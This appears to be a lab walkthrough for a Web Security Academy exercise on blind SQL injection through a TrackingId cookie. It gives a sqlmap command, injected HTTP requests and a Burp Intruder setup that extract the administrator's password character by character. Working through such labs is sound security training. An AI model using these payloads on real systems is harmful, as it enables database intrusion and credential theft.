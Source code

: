 
PostgreSQL
##### Base request
GET /product?productId=6 HTTP/2
Host: 0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net
Cookie: TrackingId=Azz0AjGBIQfIehkH; session=vaZ8eWHeYdMX5gz9ea6kRlTyZuqXfqss
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net/filter?category=Gifts
Accept-Encoding: gzip, deflate, br
Priority: u=0, i



##### Step1: Identify SQLi vulnerability 
Run sqlmap on possible vectors.
normally in the url and on the cookies.

The cookies can be mapped with:
_sqlmap -u "https://0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net/" --cookie='TrackingId=Azz0AjGBIQfIehkH; session=vaZ8eWHeYdMX5gz9ea6kRlTyZuqXfqss' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=2_

In this lab the _TrackingId_ cookie was vulnerable and you can visually see if the cookie is accepted or not with the following div appearing with an untampered cookie, 
```<div>Welcome back!</div>```
and dissapering when tampered with.
##### Step2: Confirm the vulnerability
Try removing char from the TrackingId Cookie, it disappears. Then change it back.

Add then add a statement which keeps the 
```<div>Welcome back!</div>```

See the request below as an example: 

GET /product?productId=6 HTTP/2
Host: 0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net
Cookie: TrackingId=Azz0AjGBIQfIehkH _' AND 1=1--_; session=vaZ8eWHeYdMX5gz9ea6kRlTyZuqXfqss
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net/filter?category=Gifts
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
##### Step3: Build a boolean expression which can be used to extract password
GET /product?productId=6 HTTP/2
Host: 0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net
Cookie: TrackingId=Azz0AjGBIQfIehkH' AND 1=(SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)--; session=vaZ8eWHeYdMX5gz9ea6kRlTyZuqXfqss
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net/filter?category=Gifts
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

##### Step4: Confirm the existence of administrator user
GET /product?productId=6 HTTP/2
Host: 0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net
Cookie: TrackingId=Azz0AjGBIQfIehkH _' AND 1=(SELECT CASE WHEN (1=(SELECT 1 FROM users WHERE username ='administrator')) THEN 1 ELSE 0 END)--_; session=vaZ8eWHeYdMX5gz9ea6kRlTyZuqXfqss
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net/filter?category=Gifts
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

##### Step5: Build Skelton to exfil administrator password 
I used this to double check if the SQUEEEAL syntax was correct by manually identifying the first 
char in the password. Skip the manual work if you're confident in you SQL capabilities.  This is easily done by adding the ```<div>Welcome back!</div>``` in the response search bar and selecting ```Auto-scroll```


GET /product?productId=6 HTTP/2
Host: 0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net
Cookie: TrackingId=Azz0AjGBIQfIehkH _' AND 1=(SELECT CASE WHEN ('a'=SUBSTRING((SELECT password FROM users WHERE username ='administrator'),1,1)) THEN 1 ELSE 0 END)--_; session=vaZ8eWHeYdMX5gz9ea6kRlTyZuqXfqss
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net/filter?category=Gifts
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

##### Step6: Craft the Intruder Cluster bomb attack

GET /product?productId=6 HTTP/2
Host: 0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net
Cookie: TrackingId=Azz0AjGBIQfIehkH _' AND 1=(SELECT CASE WHEN ('**§j§**'=SUBSTRING((SELECT password FROM users WHERE username ='administrator'),**§1§**,1)) THEN 1 ELSE 0 END)--_; session=vaZ8eWHeYdMX5gz9ea6kRlTyZuqXfqss
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net/filter?category=Gifts
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

Under **Payloads** add the following sets:
- **Payload set 1**: a-z, A-Z, 0-9     (Simple list)
- **Payload set 2**: 0-25                   (Numbers)   

Under **Settings** -> **Grep - Extract**
- **Highlight** ```<div>Welcome back!</div>```
or set the 
- **Start after expression**: ```<p>|</p>\n                            ```
- **End at delimiter**: ```<p>|</p>```

##### Step7: Run the b-word
Ez sit kid.
